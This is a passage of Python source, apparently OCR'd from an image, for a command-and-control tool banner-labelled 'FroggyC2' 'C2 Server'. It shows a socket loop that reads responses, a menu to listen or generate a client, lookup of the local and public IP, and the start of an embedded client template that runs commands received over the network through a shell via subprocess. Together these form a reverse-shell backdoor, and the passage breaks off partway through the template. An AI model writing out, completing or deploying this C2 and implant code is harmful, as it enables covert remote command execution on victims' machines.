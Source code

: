 ```
        response = client_socket.recv(1024).decode('utf-8')
        if not response:
            break


        print(response)


    client_socket.close()




def print_frog_ascii():
    print("""
███████╗██████╗  ██████╗  ██████╗  ██████╗██╗   ██╗     ██████╗██████╗ 
██╔════╝██╔══██╗██╔═══██╗██╔════╝ ██╔════╝╚██╗ ██╔╝    ██╔════╝╚════██╗
█████╗  ██████╔╝██║   ██║██║  ███╗██║  ███╗╚████╔╝     ██║      █████╔╝
██╔══╝  ██╔══██╗██║   ██║██║   ██║██║   ██║ ╚██╔╝      ██║     ██╔═══╝ 
██║     ██║  ██║╚██████╔╝╚██████╔╝╚██████╔╝  ██║       ╚██████╗███████╗
╚═╝     ╚═╝  ╚═╝ ╚═════╝  ╚═════╝  ╚═════╝   ╚═╝        ╚═════╝╚══════
""")
    print("C2 Server")




def main():
    print_frog_ascii()
    print("1. Type 1 to start listening")
    print("2. Type 2 to spawn a client and start listening")


    choice = input(">> ")
    if choice == "1":
        start_listening()
    elif choice == "2":
        local_ip = get_local_ip()
        if local_ip is None:
            print("Wi-Fi adapter not found. Please make sure it is connected and try again.")
            sys.exit(1)
        public_ip = get_public_ip()


        print("Local IP: ", local_ip)
        print("Public IP: ", public_ip)


        client_template = '''
import socket
import subprocess


def execute_command(command):
    try:
        process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
        stdout, stderr = process.communicate()
        stdout = stdout.decode('utf-8').strip()
        stderr = stderr.decode('utf-8').strip()
        return stdout + stderr
    except Exception as e:
        return str(e).encode('utf-8')
```